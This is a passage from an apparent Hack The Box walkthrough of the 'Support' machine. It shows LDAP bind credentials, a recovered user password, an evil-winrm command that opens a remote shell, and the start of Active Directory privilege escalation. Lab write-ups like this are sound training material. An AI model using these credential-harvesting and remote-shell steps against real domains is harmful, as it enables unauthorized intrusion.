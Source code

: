 Connect to the AD using ldap user creds:
- Bind DN: ldap@support.htb
- Password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

![alt text](Snapshots/Support-image.png)

Got the following creds of support user

```plaintext
support:Ironside47pleasure40Watchful
```

Establish a shell using evil-winrm

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a DC:

```powershell
Get-ADDomain
InfrastructureMaster               : dc.support.htb
```
